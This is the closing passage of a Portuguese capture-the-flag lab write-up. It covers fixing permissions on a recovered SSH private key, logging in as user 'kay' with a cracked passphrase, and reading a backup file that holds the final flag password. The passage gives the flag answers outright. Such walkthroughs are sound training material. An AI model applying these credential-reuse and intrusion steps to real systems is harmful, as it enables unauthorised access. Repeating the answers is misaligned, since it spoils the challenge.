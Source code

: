 **Após a execução, a senha encontrada foi:** `beeswax`

Antes de utilizarmos a chave, ajustamos as permissões para evitar erros no SSH:

```bash
┌──(root㉿kali)-[/home/kali]
└─# chmod 600 id_rsa 
```

Por fim, acessamos o servidor via SSH com o usuário `kay`, usando a chave privada e a senha encontrada:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh kay@10.201.18.169 -i id_rsa 
Enter passphrase for key 'id_rsa': beeswax
```
---

### 11. Qual é a senha final que você obtém?
Dentro do diretório home do usuário `kay`, encontramos o arquivo `pass.bak` contendo a senha final:

```bash
kay@ip-10-201-18-169:~$ ls
pass.bak
kay@ip-10-201-18-169:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

**Resposta:** `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

<div align="center"> <h2>CTF CONCLUÍDO! 🚩🏆</h2> </div>
